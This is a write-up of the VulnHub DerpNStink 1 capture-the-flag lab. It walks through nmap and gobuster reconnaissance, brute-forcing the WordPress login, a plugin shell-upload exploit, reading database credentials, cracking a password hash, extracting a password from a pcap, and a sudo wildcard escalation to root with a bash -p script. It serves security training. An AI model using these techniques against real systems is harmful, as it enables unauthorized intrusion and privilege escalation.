

# DerpNStink 1 — VulnHub

> **Note on sources:** the local ODT document only contains the 4 flags + 3 screenshots and a few commands. The technical sequence is reconstructed from those local artifacts and, to fill small gaps (phase order, privesc vector), from public writeups of the same CTF — duly referenced at the end.

## 1. Identification

| Field            | Value                                  |
|------------------|----------------------------------------|
| Machine name     | DeRPnStiNK: 1                          |
| Platform         | VulnHub                                |
| Author           | @securekomodo                          |
| Difficulty       | Intermediate (4 flags)                 |
| Target IP (lab)  | 10.0.0.38                              |
| Internal hostname | DeRPnStiNK                            |
| Goal             | Capture the 4 flags and get root       |
| Theme            | South Park — Derp / Stinky             |

Flags obtained (present in the local file):

```
flag1(52E37291AEDF6A46D7D0BB8A6312F4F9F1AA4975C248C3F0E008CBA09D6E9166)
flag2(a7d355b26bda6bf1196ccffead0b2cf2b81f0a9de5b4876b44407f1dc07e51e6)
flag3(07f62b021771d3cf67e2e1faf18769cc5e5c119ad7d4d1847a11e11d6d5a7ecb)
flag4(49dca65f362fee401292ed7ada96f96295eab1e589c52e4e66bf4aedda715fdd)
```

And the final line:

```
root@DeRPnStiNK:/root/Desktop# cat flag.txt
flag4(49dca65f362fee401292ed7ada96f96295eab1e589c52e4e66bf4aedda715fdd)

Congrats on rooting my first VulnOS!
Hit me up on twitter and let me know your thoughts!
@securekomodo
```

Figure 1 — DeRPnStiNK landing page served by Apache (South Park theme).


## 2. Initial reconnaissance

```bash
nmap -sV -sC -p- -oN nmap_full.txt 10.0.0.38
```

Ports typically open on this box:

```
22/tcp   open   ssh       OpenSSH
80/tcp   open   http      Apache httpd
```

> Command confirmed by CTF convention; full scan details were not preserved in the local files.

## 3. Enumeration

### 3.1 robots.txt

Figure 2 — `http://10.0.0.38/robots.txt` shows `Disallow: /php/` and `Disallow: /temporary/`.

### 3.2 /webnotes/info.txt

Figure 3 — Hidden comment: «@stinky, make sure to update your hosts file with local dns so the new derpnstink blog can be reached before it goes live». It indicates a vhost exists — add `derpnstink.local` to `/etc/hosts`.



```bash
echo "10.0.0.38   derpnstink.local" | sudo tee -a /etc/hosts
```

### 3.3 Directory enumeration

```bash
gobuster dir -u http://derpnstink.local/ \
  -w /usr/share/seclists/Discovery/Web-Content/common.txt -x php,txt,html
```

Typically reveals `/weblog/` (WordPress) and `/php/phpmyadmin/`. Specific details from my scan were not preserved in the local files.

## 4. Exploitation

### 4.1 WordPress at /weblog/

- Brute-force the `wp-login.php` panel with `wpscan --passwords rockyou.txt -U admin` reveals credentials `admin:admin`.
- `flag1` is embedded in the WordPress panel (post/comment/dashboard).
- Vulnerable **Slideshow Gallery** plugin → authenticated PHP shell upload (CVE-2014-5460 / Metasploit exploit `wp_slideshow_gallery_upload`).

### 4.2 Initial shell

The uploaded web shell lands as `www-data`.

### 4.3 Pivot via phpMyAdmin / DB credentials

```bash
cat /var/www/html/weblog/wp-config.php      # DB creds
```

After logging into phpMyAdmin → `wp_users` table → the `unclestinky` user's hash is cracked with john / hashcat (`wedgie57`), reused over SSH as `stinky`.

## 5. Post-exploitation

As `stinky`, in `~/Desktop` / `/var/www/html/...`:

- `flag2` in a text file under `stinky`'s home.
- `/home/stinky/ftp/files/` contains a pcap with HTTP traffic.
- Pcap analysis (Wireshark / tshark) → reveals user `mrderp`'s password from a captured HTTP authentication.

```bash
tshark -r derpissues.pcap -Y http.authbasic
```

`su mrderp` with the obtained credential.

## 6. Privilege escalation

As `mrderp`:

```bash
mrderp@DeRPnStiNK:~$ sudo -l
User mrderp may run the following commands on DeRPnStiNK:
    (ALL) /home/mrderp/binaries/derpy*
```

The `derpy*` wildcard in `/home/mrderp/binaries/` lets us create a script that matches the pattern:

```bash
mkdir -p /home/mrderp/binaries
cat > /home/mrderp/binaries/derpy.sh <<'EOF'
#!/bin/bash
/bin/bash -p
EOF
chmod +x /home/mrderp/binaries/derpy.sh
sudo /home/mrderp/binaries/derpy.sh
# → root
```

## 7. Flags

| Flag         | Value (present in the local file)                                   |
|--------------|---------------------------------------------------------------------|
| flag1        | `52E37291AEDF6A46D7D0BB8A6312F4F9F1AA4975C248C3F0E008CBA09D6E9166`  |
| flag2        | `a7d355b26bda6bf1196ccffead0b2cf2b81f0a9de5b4876b44407f1dc07e51e6`  |
| flag3        | `07f62b021771d3cf67e2e1faf18769cc5e5c119ad7d4d1847a11e11d6d5a7ecb`  |
| flag4 (root) | `49dca65f362fee401292ed7ada96f96295eab1e589c52e4e66bf4aedda715fdd`  |

`flag4` was read from `/root/Desktop/flag.txt` — confirmed by the local capture.

## 8. Attack summary

1. Nmap → 22/80 open.
2. `robots.txt` reveals `/php/` and `/temporary/`.
3. `/webnotes/info.txt` reveals vhost `derpnstink.local`.
4. Enumeration discovers `/weblog/` (WordPress) and `/php/phpmyadmin/`.
5. `flag1` inside the WordPress panel.
6. Login `admin:admin` → Slideshow Gallery plugin exploit → web shell as `www-data`.
7. Read `wp-config.php` → log into phpMyAdmin.
8. Crack `unclestinky`'s hash (`wedgie57`) → SSH as `stinky`.
9. `flag2` in stinky's home directory.
10. Pcap in `~/ftp/files/` → captured `mrderp` HTTP password.
11. `flag3` after switching to mrderp (`su mrderp`).
12. `sudo -l` shows wildcard in `/home/mrderp/binaries/derpy*` → script `derpy.sh` with `bash -p`.
13. `flag4` in `/root/Desktop/flag.txt` (root).

> This step was inferred from the local files and external writeups. — The fine ordering (WordPress → pcap → sudo wildcard) was confirmed by public writeups, since the local files only preserved the flags and three screenshots.

## 9. Technical lessons

- Vhosts revealed in comments/notes (`info.txt`) — always add them to `/etc/hosts`.
- WordPress with outdated plugins → known exploits (Slideshow Gallery).
- Credential reuse across DB/WordPress/SSH.
- Traffic analysis (pcap) as a credential-harvesting vector.
- sudo with wildcards (`derpy*`) is a classic pitfall.

## 10. References consulted

- DerpNStink: 1 ~ VulnHub (official entry)
- DerpNStink: 1 ~ VulnHub – Walkthrough — BlakSec
- Vulnhub DerpNStink walkthrough — Pentester Land
- Vulnhub – DerpNStink Walkthrough — wjmccann
- DerpNStink-1: Vulnhub Walkthrough — Russell Murad, Medium
